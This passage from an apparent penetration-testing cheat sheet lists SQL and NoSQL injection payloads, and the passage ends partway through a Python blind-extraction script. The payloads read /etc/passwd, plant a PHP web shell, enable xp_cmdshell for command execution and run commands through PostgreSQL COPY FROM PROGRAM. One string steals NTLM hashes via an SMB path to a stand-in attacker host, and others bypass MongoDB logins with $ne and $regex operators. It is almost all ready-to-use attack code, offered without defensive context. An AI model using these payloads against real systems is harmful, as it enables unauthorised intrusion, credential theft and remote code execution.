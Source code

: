 ```sql
-- Read files
' UNION SELECT LOAD_FILE('/etc/passwd'),NULL,NULL-- -

-- Write files
' UNION SELECT '<?php system($_GET["cmd"]); ?>',NULL,NULL INTO OUTFILE '/var/www/html/shell.php'-- -

-- Command execution (if available)
' UNION SELECT sys_exec('whoami'),NULL,NULL-- -
```

#### MSSQL

```sql
-- Enable xp_cmdshell
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;-- -

-- Command execution
'; EXEC xp_cmdshell 'whoami';-- -

-- NTLM hash stealing
'; EXEC xp_dirtree '\\attacker_ip\share';-- -
```

#### PostgreSQL

```sql
-- Command execution
'; CREATE TABLE cmd_exec(cmd_output text);-- -
'; COPY cmd_exec FROM PROGRAM 'whoami';-- -
'; SELECT * FROM cmd_exec;-- -

-- Read files
' UNION SELECT pg_read_file('/etc/passwd'),NULL,NULL-- -
```

---

## NoSQL Injection

### MongoDB Injection

```javascript
// Authentication bypass
username[$ne]=admin&password[$ne]=admin
username=admin&password[$regex]=^.*
username=admin&password[$gt]=

// JavaScript injection
username=admin&password=1'; return true; var dummy='
username=admin&password=1' || '1'=='1

// Extract data with regex
username[$regex]=^a.*&password[$ne]=1  // Check if username starts with 'a'
username[$regex]=^admin$&password[$regex]=^.{5}$  // Check password length

// Blind extraction script
import requests
import string

password = ""
url = "http://target.com/login"
while True:
    for c in string.ascii_letters + string.digits:
```